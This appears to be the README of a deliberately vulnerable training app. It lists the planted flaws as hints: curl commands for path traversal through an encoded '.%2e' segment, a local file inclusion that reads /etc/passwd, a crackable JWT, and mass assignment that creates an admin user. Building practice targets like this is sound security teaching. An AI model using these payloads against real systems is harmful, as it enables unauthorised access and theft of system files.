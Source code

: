 # Getting Started

### Tips for admin app

- login page always will `Username or password is incorrect` return
- 403 - `curl http://localhost/admin/123/.%2e/data` (data, help, password endpoints)
- Path traversal - `curl http://localhost/admin/123/.%2e/users`
- Path traversal - `curl http://localhost/admin/123/.%2e/configuration`
- LFI - `curl http://localhost/admin/123/.%2e/configuration?file=/../../../../../../../etc/passwd`

### Tips for api app

* You can auth from admin app creds
* JWT token is crackable by jwt-tool and common list
* `CreateUserRequest` - give possibility to create a new admin with MassAssignment
* Added `/actuator` for future secondary context findings
